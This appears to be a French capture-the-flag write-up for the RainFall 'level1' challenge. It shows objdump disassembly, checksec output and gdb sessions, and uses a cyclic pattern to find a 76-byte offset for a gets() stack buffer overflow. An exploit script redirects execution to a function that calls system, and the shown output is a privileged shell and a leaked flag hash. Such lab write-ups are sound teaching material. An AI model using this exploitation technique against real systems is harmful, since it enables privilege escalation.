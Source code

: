 Nous utilisons objdump pour avoir un aperçu du binaire level1 :

```
level1@RainFall:~$ objdump ./level1 -d
```

```asm
Disassembly of section .plt:

08048330 <gets@plt-0x10>:
 8048330:	ff 35 90 97 04 08    	pushl  0x8049790
 8048336:	ff 25 94 97 04 08    	jmp    *0x8049794
 804833c:	00 00                	add    %al,(%eax)
	...

08048340 <gets@plt>:
 8048340:	ff 25 98 97 04 08    	jmp    *0x8049798
 8048346:	68 00 00 00 00       	push   $0x0
 804834b:	e9 e0 ff ff ff       	jmp    8048330 <_init+0x38>

08048350 <fwrite@plt>:
 8048350:	ff 25 9c 97 04 08    	jmp    *0x804979c
 8048356:	68 08 00 00 00       	push   $0x8
 804835b:	e9 d0 ff ff ff       	jmp    8048330 <_init+0x38>

08048360 <system@plt>:
 8048360:	ff 25 a0 97 04 08    	jmp    *0x80497a0
 8048366:	68 10 00 00 00       	push   $0x10
 804836b:	e9 c0 ff ff ff       	jmp    8048330 <_init+0x38>

08048370 <__gmon_start__@plt>:
 8048370:	ff 25 a4 97 04 08    	jmp    *0x80497a4
 8048376:	68 18 00 00 00       	push   $0x18
 804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>

08048380 <__libc_start_main@plt>:
 8048380:	ff 25 a8 97 04 08    	jmp    *0x80497a8
 8048386:	68 20 00 00 00       	push   $0x20
 804838b:	e9 a0 ff ff ff       	jmp    8048330 <_init+0x38>


08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    

08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
 8048486:	83 ec 50             	sub    $0x50,%esp
 8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
 804848d:	89 04 24             	mov    %eax,(%esp)
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop
 ```

La fonction **run** est intéressante, il y a un appel à **gets** dans main, qui est vulnérable à une attaque buffer overflow. Nous allons donc essayer de modifier l'adresse de retour pour accéder à la fonction **run** qui appelle **system**. Tout d'abord, nous vérifions si level1 est vulnérable à une attaque par buffer overflow :

```
level1@RainFall:~$ checksec --file ./level1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level1
```

Aucun canary trouvé, donc nous pouvons exploiter la vulnérabilité avec un buffer oveflow. D'abord, nous allons trouver l'offset du buffer, puis créer payload.

```
level1@RainFall:~$ python /tmp/pattern.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
Ensuite, nous tentons de modifier l'EIP dans **main** avec l'adresse de la fonction **run**.

```
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) b *0x08048496
Breakpoint 2 at 0x8048496
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 2, 0x08048496 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048496 in main; saved eip 0x63413563
 Arglist at 0x41346341, args:
 Locals at 0x41346341, Previous frame's sp is 0xbffff740
 Saved registers:
  eip at 0xbffff73c
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
=> 0x08048496 <+22>:    ret
End of assembler dump.
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
Nous avons un segfault à l'adresse ```0x63413563``` et la commande info frame nous donne: **saved eip 0x63413563**
Ainsi, nous savons que eip a été écrasé par cette valeur : ```0x63413563``` Nous allons vérifier la position de cette valeur dans notre pattern en utilisant notre script:

```
level1@RainFall:~$ python /tmp/pattern.py > /tmp/pattern
level1@RainFall:~$ python /tmp/pattern.py /tmp/pattern 0x63413563
offset found at: 76
```
On exploit avec le script:
```
level1@RainFall:~$ python /tmp/exploit.py 0x08048444 76
crafting payload...
done:
/tmp/payload_level1
level1@RainFall:~$ cat /tmp/payload_level1 - | ./level1

Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Nous avons vu que la limite est de 76 octets, nous pouvons également procéder manuellement en identifiant l'adresse de **eip** et en soustrayant l'adresse de début du buffer. Nous savons, d'après le code désassemblé, que 0x50 octets sont réservés, donc le buffer fait 0x50 - 0x10, soit 64 octets.

```
level1@RainFall:~$ gdb -q ./level1 
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
=> 0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e45400
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/24wx $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff730:	0x41414141	0x41414141	0x41414141	0xb7e45400
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
```
